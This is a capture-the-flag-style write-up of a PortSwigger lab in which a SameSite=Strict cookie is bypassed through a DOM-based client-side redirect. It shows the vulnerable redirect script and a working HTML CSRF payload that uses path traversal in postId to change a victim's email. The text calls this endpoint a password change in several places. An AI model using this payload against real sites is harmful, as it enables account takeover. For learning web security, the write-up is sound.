

# [`SameSite=Strict` Bypass via Client-side Redirect](https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions/lab-samesite-strict-bypass-via-client-side-redirect)

The target service sets a `SameSite=Strict` cookie:

```http
Set-Cookie: session=HZGZUXaEL6UHhu9sVMD3V3MCaJTIjWuW; Secure; HttpOnly; SameSite=Strict
```

But the password change endpoint requires no CSRF protection:

```http
POST /my-account/change-email HTTP/2
Host: 0acc008003baf22280cd3fa3003a00ef.web-security-academy.net
Cookie: session=HZGZUXaEL6UHhu9sVMD3V3MCaJTIjWuW
Origin: https://LAB_ID.web-security-academy.net
…

email=x%40x.x&submit=1
```

A `SameSite=Strict` cookie will only be sent if the request _originates_ from the same site that set the cookie. It won't be sent with any requests initiated by third-party websites (e.g., `exploit-server.net`.) So I need to find another way to initiate the request such that the cookie can be passed to validate the transaction.

There's a DOM-based redirect after a user posts a comment on a blog post:



The endpoint for that confirmation page is `/post/comment/confirmation?postId=6`, and the value passed to `postId` is unsanitized. In that example it just redirects to `/post/6`.

Here is the JavaScript that performs the redirection:

```javascript
redirectOnConfirmation = (blogPath) => {
    setTimeout(() => {
        const url = new URL(window.location);
        const postId = url.searchParams.get("postId");
        window.location = blogPath + '/' + postId;
    }, 3000);
}
```

Another lucky break is that the `/my-account-change-email` endpoint access GET requests in addition to POST requests, so a simple `document.location` redirect in an exploit delivered to the victim is sufficient to change the password:

```text
<html>
  <body>
    <script>
      document.location = "https://LAB_ID.web-security-academy.net/post/comment/confirmation?postId=../../my-account/change-email?email=p@w.n%26submit=1"
    </script>
  </body>
</html>
```

Note that `submit=1` is also required for the password-change request. This is why I used `%26` instead of `&` to include the second parameter. If I hadn't, it would have been considered an additional parameter for the `/post/comment/confirmation` endpoint, and not the `/my-account/change-email` endpoint that the victim is redirected to.